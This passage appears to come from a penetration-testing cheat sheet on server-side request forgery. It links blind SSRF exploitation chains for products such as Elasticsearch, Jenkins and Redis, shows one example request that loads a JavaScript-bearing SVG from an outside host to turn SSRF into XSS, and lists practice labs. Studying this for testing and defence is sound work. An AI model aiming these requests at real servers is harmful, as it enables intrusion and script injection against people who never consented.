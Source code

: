 ## Blind Exploitation

> When exploiting server-side request forgery, we can often find ourselves in a position where the response cannot be read.

Use an SSRF chain to gain an Out-of-Band output: [assetnote/blind-ssrf-chains](https://github.com/assetnote/blind-ssrf-chains)

**Possible via HTTP(s)**:

* [Elasticsearch](https://github.com/assetnote/blind-ssrf-chains#elasticsearch)
* [Weblogic](https://github.com/assetnote/blind-ssrf-chains#weblogic)
* [Hashicorp Consul](https://github.com/assetnote/blind-ssrf-chains#consul)
* [Shellshock](https://github.com/assetnote/blind-ssrf-chains#shellshock)
* [Apache Druid](https://github.com/assetnote/blind-ssrf-chains#druid)
* [Apache Solr](https://github.com/assetnote/blind-ssrf-chains#solr)
* [PeopleSoft](https://github.com/assetnote/blind-ssrf-chains#peoplesoft)
* [Apache Struts](https://github.com/assetnote/blind-ssrf-chains#struts)
* [JBoss](https://github.com/assetnote/blind-ssrf-chains#jboss)
* [Confluence](https://github.com/assetnote/blind-ssrf-chains#confluence)
* [Jira](https://github.com/assetnote/blind-ssrf-chains#jira)
* [Other Atlassian Products](https://github.com/assetnote/blind-ssrf-chains#atlassian-products)
* [OpenTSDB](https://github.com/assetnote/blind-ssrf-chains#opentsdb)
* [Jenkins](https://github.com/assetnote/blind-ssrf-chains#jenkins)
* [Hystrix Dashboard](https://github.com/assetnote/blind-ssrf-chains#hystrix)
* [W3 Total Cache](https://github.com/assetnote/blind-ssrf-chains#w3)
* [Docker](https://github.com/assetnote/blind-ssrf-chains#docker)
* [Gitlab Prometheus Redis Exporter](https://github.com/assetnote/blind-ssrf-chains#redisexporter)

**Possible via Gopher**:

* [Redis](https://github.com/assetnote/blind-ssrf-chains#redis)
* [Memcache](https://github.com/assetnote/blind-ssrf-chains#memcache)
* [Apache Tomcat](https://github.com/assetnote/blind-ssrf-chains#tomcat)

## Upgrade to XSS

When the SSRF doesn't have any critical impact, the network is segmented and you can't reach other machine, the SSRF doesn't allow you to exfiltrate files from the server.

You can try to upgrade the SSRF to an XSS, by including an SVG file containing Javascript code.

```bash
https://example.com/ssrf.php?url=http://brutelogic.com.br/poc.svg
```

## Labs

* [PortSwigger - Basic SSRF against the local server](https://portswigger.net/web-security/ssrf/lab-basic-ssrf-against-localhost)
* [PortSwigger - Basic SSRF against another back-end system](https://portswigger.net/web-security/ssrf/lab-basic-ssrf-against-backend-system)
* [PortSwigger - SSRF with blacklist-based input filter](https://portswigger.net/web-security/ssrf/lab-ssrf-with-blacklist-filter)
* [PortSwigger - SSRF with whitelist-based input filter](https://portswigger.net/web-security/ssrf/lab-ssrf-with-whitelist-filter)
* [PortSwigger - SSRF with filter bypass via open redirection vulnerability](https://portswigger.net/web-security/ssrf/lab-ssrf-filter-bypass-via-open-redirection)
* [Root Me - Server Side Request Forgery](https://www.root-me.org/en/Challenges/Web-Server/Server-Side-Request-Forgery)
* [Root Me - Nginx - SSRF Misconfiguration](https://www.root-me.org/en/Challenges/Web-Server/Nginx-SSRF-Misconfiguration)
